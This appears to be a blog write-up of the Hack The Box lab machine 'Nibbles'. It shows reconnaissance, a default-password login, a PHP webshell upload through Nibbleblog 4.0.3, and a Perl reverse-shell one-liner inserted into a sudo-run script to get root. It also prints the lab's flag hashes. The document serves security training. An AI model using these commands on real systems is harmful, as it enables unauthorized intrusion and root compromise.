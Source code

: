 ```yaml
---
layout: post
title: Nibbles
tags: [OSCP, Writeup, Linux, Web, File Misconfiguration, CMS Exploit]
description: "Nibbles write-up"
---
```


![Nibbles logo](/assets/imgs/nibbles/nibbles.png)

### This is an easy linux box

## Tools used

------

- browser
- ffuf
- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA nibbles 10.10.10.75 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here’s what nmap teaches us :

- port 22 (SSH) - OpenSSH 7.2p2
- port 80 (HTTP) - Apache 2.4.18

Not a lot of open ports, let's first go to the web port.

There's not a lot of thing here, so I went up the source code and here's what was in it :

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Went on it :

![Nibbleblog](/assets/imgs/nibbles/website.PNG)

So this is a blog and we can see at the bottom right that this is "Powered by Nibbleblog". From here I used ffuf to do some files/directories brute force.

```
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.75/nibbleblog/FUZZ -e .php,.html,.txt -t 250

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.75/nibbleblog/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 250
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.php               [Status: 200, Size: 2985, Words: 116, Lines: 61]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10]
feed.php                [Status: 200, Size: 302, Words: 8, Lines: 8]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10]
install.php             [Status: 200, Size: 78, Words: 11, Lines: 1]
update.php              [Status: 200, Size: 1621, Words: 103, Lines: 88]
languages               [Status: 301, Size: 325, Words: 20, Lines: 10]
sitemap.php             [Status: 200, Size: 401, Words: 33, Lines: 11]
content                 [Status: 301, Size: 323, Words: 20, Lines: 10]
```

Looking throught those files and directories, I was able to found the version of blog used, a login page and a user :

![Nibbleblog version](/assets/imgs/nibbles/version.PNG)

![Nibbleblog login page](/assets/imgs/nibbles/login_admin.PNG)

![Nibbleblog user page](/assets/imgs/nibbles/user.PNG)

Knowing the version installed let's see if there is known exploits :

![Searchsploit Nibbleblog 4.0.3](/assets/imgs/nibbles/exploit.PNG)

Nice, there is one ! It's a Metasploit module, let's read the code and do it manually, first download the exploit :

```
searchsploit -m php/remote/38489.rb
```

Reading throught the code, I first need an account to exploit this flaw :

```
Nibbleblog contains a flaw that allows a authenticated remote attacker to execute arbitrary PHP code. This module was tested on version 4.0.3.
```

Let's go back to our login page, I know the username, just missing the password ! Let's try default passwords :

- admin:admin - Not working
- admin:root - Not working
- admin:password - Not working
- admin:administrator - Not working
- admin:nibbles - Working

I now have the admin account ! I did not fully understand the metasploit module, so I search on Google how to exploit the Nibbleblog flaw and I found this wiki with a great explanation : [https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

Now let's exploit !

## Exploit

------

First go to :

```
http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
```

![Image plugin](/assets/imgs/nibbles/user.PNG)

Then browse and upload a webshell or reverse shell. I used a webshell that I very like which is p0wny-shell ([https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell)). Ignore the warnings upon upload :

![Warnings ignore](/assets/imgs/nibbles/warnings.PNG)

And now go to :

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

![Powny shell](/assets/imgs/nibbles/powny_shell.PNG)

I have a webshell as the user ! Now it's time to root ! First things that I do, is to check if I can run commands as someone else :

```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
	(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

I can run a bash script with root privileges ! So if I can modify monitor.sh it's a win !

```
p0wny@shell:/home/nibbler# ls
personal.zip
user.txt
```

Unzip the zip file, like so :

```
p0wny@shell:/home/nibbler# unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

Now let's see the rights of this file :

```
p0wny@shell:…/personal/stuff# ls -al
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Nice I can modify it ! It's a win, I just have to add a reverse shell in the file and launch it as root.

```
sed  -i '1i perl -e '\''use Socket;$i="10.10.14.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'\''' monitor.sh
```

This is adding my perl reverse shell ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) at the begining of the file. Launch a nc listener :

```
nc -lvp 1234
```

And launch the script with root privileges :

```
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

Go check the nc listner :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.75: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 52660
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

Voila ! I'm root, now go read the flags.

## Flags

------

### User.txt

```bash
cat user.txt
b02ff32bb332deba49eeaed21152c8d8
```

### Root.txt

```bash
cat root.txt
b6d745c0dfb6457c55591efc898ef88c
```